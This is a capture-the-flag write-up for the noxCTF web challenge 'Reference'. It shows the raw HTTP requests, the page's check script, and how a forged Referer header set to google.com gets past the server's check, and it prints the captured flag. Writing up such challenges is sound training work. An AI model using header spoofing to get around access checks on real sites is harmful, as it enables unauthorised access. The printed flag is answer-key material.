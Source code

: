 # **Reference**

#### tag : web

-----------------------------------------------

#### Description

>What is your reference again?
>
>http://chal.noxale.com:5000


-----------------------------------------------

#### Solution

Link is just simple site checking referer site is google or not.

~~~

GET / HTTP/1.1
Host: chal.noxale.com:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=MvzfvW4ZpJb3GS3Z16YCLR1pdkfVeBk6TBZrWf7HBheXieydWjoL17OGgHoC7O6u
If-None-Match: "flask-1536165887.0-1291-1563297874"
If-Modified-Since: Wed, 05 Sep 2018 16:44:47 GMT
Connection: close

~~~

There is checking script.

~~~

$( document ).ready(function() {
    $.ajax({
        url: "check_from_google",
        data: NaN,
        success: function(result) {
            $("#status").html("hello old friend! " + atob(result))        
        },
        dataType: NaN
    }).fail(function() {
        $("#status").html("where the **** did you come from?")
    });
});

~~~

Deafult request,

~~~

GET /check_from_google HTTP/1.1
Host: chal.noxale.com:5000
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Referer: http://chal.noxale.com:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=MvzfvW4ZpJb3GS3Z16YCLR1pdkfVeBk6TBZrWf7HBheXieydWjoL17OGgHoC7O6u
Connection: close

~~~

Well, I change `Referer` header to google's url and I can get flag.

~~~

GET /check_from_google HTTP/1.1
Host: chal.noxale.com:5000
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Referer: http://www.google.com
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=MvzfvW4ZpJb3GS3Z16YCLR1pdkfVeBk6TBZrWf7HBheXieydWjoL17OGgHoC7O6u
Connection: close

~~~

**noxCTF{G0ogL3_1s_4lW4Ys_Ur_b3ST_R3f3r3nc3}**
